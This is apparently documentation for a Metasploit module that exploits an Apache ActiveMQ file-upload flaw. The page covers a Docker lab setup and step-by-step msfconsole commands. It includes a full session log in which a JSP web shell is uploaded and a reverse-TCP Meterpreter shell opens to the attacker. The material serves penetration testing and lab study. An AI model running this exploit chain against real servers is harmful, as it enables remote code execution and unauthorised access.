 ## Vulnerable Application

This module exploits a vulnerability in Apache ActiveMQ 5.x before 5.14.0 which
allows remote attackers to upload and execute arbitrary files via an HTTP PUT
followed by an HTTP MOVE request. By default, a JSP web shell and Java
Meterpreter payload are uploaded to the `/fileserver/` path of a vulnerable
server, then moved via an HTTP MOVE request to either `/api/` or `/admin/`.
You should get a shell as the user running ActiveMQ.

### Configuring a Vulnerable Environment

To use a pre-built Docker image:

```
docker run -it -p 8161:8161 rmohr/activemq:5.10.0
```

To run an older version of ActiveMQ with Java 8, create a new `Dockerfile`:

```
FROM openjdk:8

ENV ACTIVEMQ_VERSION 5.9.0
ENV ACTIVEMQ apache-activemq-$ACTIVEMQ_VERSION

ENV ACTIVEMQ_HOME /opt/activemq

RUN \
    curl -O http://archive.apache.org/dist/activemq/apache-activemq/$ACTIVEMQ_VERSION/$ACTIVEMQ-bin.tar.gz && \
    mkdir -p /opt && \
    tar xf $ACTIVEMQ-bin.tar.gz -C /opt/ && \
    rm $ACTIVEMQ-bin.tar.gz && \
    ln -s /opt/$ACTIVEMQ $ACTIVEMQ_HOME && \
    useradd -r -M -d $ACTIVEMQ_HOME activemq && \
    chown activemq:activemq /opt/$ACTIVEMQ -R

USER activemq

WORKDIR $ACTIVEMQ_HOME
EXPOSE 61616 8161

CMD ["/bin/bash", "-c", "bin/activemq console"]
```

Next build and run the application:

```
docker build -t activemq:5.9.0 .
docker run -it -p 8161:8161 activemq:5.9.0
```

Verify the application is running by visiting
`http://localhost:8161/admin/test/` with the credentials `admin:admin`

## Verification Steps

1. Run the application locally.
1. Start msfconsole.
1. Do: `use multi/http/apache_activemq_upload_jsp`.
1. Do: `set rhosts <ip address of remote host> `.
1. Do: `set lhost <ip address of local machine`.
1. Do: `run`.
1. You should get a shell under the process running ActiveMQ.

## Options

### AutoCleanup

Remove web shells from the target system after callback is received (Default:
true)

### BasicAuthUser

User-supplied username (Default: admin)

### BasicAuthPass

User-supplied password associated with username (Default: admin)

### JSP

Desired name to assign to the JSP web shell when it is uploaded to the target
system. Do not include the `.jsp` extension (Default: randomly-generated string)

## Advanced Options

### UploadPath

Custom path into which web shells will be uploaded on the target system. If the
user determines that a nonstandard directory is able to execute .jsp files, the
user can specify this directory for exploitation (Default: attempt `/api/`; if that
fails, attempt `/admin/`)

## Scenarios

### Targeting ActiveMQ 5.9.0

```
$ msfconsole -q
msf > use multi/http/apache_activemq_upload_jsp
[*] Using configured payload java/meterpreter/reverse_tcp
msf exploit(multi/http/apache_activemq_upload_jsp) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf exploit(multi/http/apache_activemq_upload_jsp) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(multi/http/apache_activemq_upload_jsp) > show options

Module options (exploit/multi/http/apache_activemq_upload_jsp):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   AutoCleanup    true             no        Remove web shells after callback is received
   BasicAuthPass  admin            yes       The password for the specified username
   BasicAuthUser  admin            yes       The username to authenticate as
   JSP                             no        JSP name to use, excluding the .jsp extension (default: random)
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          8161             yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                           no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.18.0.1       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf exploit(multi/http/apache_activemq_upload_jsp) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Uploading http://127.0.0.1:8161//opt/activemq/webapps/api//mNhqqxqibzBbGvw.jar
[*] Uploading http://127.0.0.1:8161//opt/activemq/webapps/api//mNhqqxqibzBbGvw.jsp
[*] Sending stage (58082 bytes) to 172.18.0.2
[+] Deleted /opt/activemq/webapps/api//mNhqqxqibzBbGvw.jar
[+] Deleted /opt/activemq/webapps/api//mNhqqxqibzBbGvw.jsp
[*] Meterpreter session 2 opened (172.18.0.1:4444 -> 172.18.0.2:52620) at 2021-06-14 14:55:52 -0500

meterpreter > getuid
Server username: activemq
meterpreter > sysinfo
Computer    : e0acc262f573
OS          : Linux 5.8.0-55-generic (amd64)
Meterpreter : java/linux
meterpreter >
```
